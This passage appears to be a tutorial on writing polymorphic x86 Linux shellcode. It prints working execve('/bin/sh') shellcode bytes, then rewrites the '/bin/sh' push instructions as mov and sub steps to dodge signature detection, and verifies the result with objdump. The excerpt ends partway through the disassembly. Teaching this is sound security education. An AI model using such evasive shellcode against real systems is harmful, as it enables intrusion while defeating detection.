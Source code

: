 
Let's get original shellcode

```
$ shellcode-dump.sh poly
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

and after that test it with `shellcode.c` to ensure that it works.
Ok, so now let me open up `poly.nasm` and let start messing around
with the instructions. 

Now, you are probably thinking the easiest thing to probably to 
fingerprint would be these two `push` instructions

```
        push 0x68732f2f
        push 0x6e69622f
```

Because this show some variation of `/bin/sh` with extra-slashes. And
if you look at most common available shellcode you will see the exact
same `push` patterns repeating again and again depending on specific
program you want to execute. The actual hex immediate values may be
different.

So, now let me go ahead and modify this in some intelligent way. So we
still want to push these values on the stack. Let see if we can do 
this in a slightly different way. So what I am going to do is let me
replace the `push` with `mov` instructions. What I am going to do is
after the `mov` on the stack we will set `esp` right by ourselves.
So let me do this

```asm
        mov dword [esp-4], 0x68732f2f
        mov dword [esp-8], 0x6e69622f

        ;push 0x68732f2f
        ;push 0x6e69622f
```

now I need to adjust the stack pointer so I could simply do this
by subtract instruction

```asm
        mov dword [esp-4], 0x68732f2f
        mov dword [esp-8], 0x6e69622f
        sub esp, 8
```

and all this simple arithmetic because the stack grows from high 
memory to low memory.

Let's go ahead assemble and link this and use `objdump` just to verify
that we don't have any NULLs in here.

```
$ objdump -d poly -M intel

poly:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	50                   	push   eax
 8048063:	c7 44 24 fc 2f 2f 73 	mov    DWORD PTR [esp-0x4],0x68732f2f
 804806a:	68 
 804806b:	c7 44 24 f8 2f 62 69 	mov    DWORD PTR [esp-0x8],0x6e69622f
```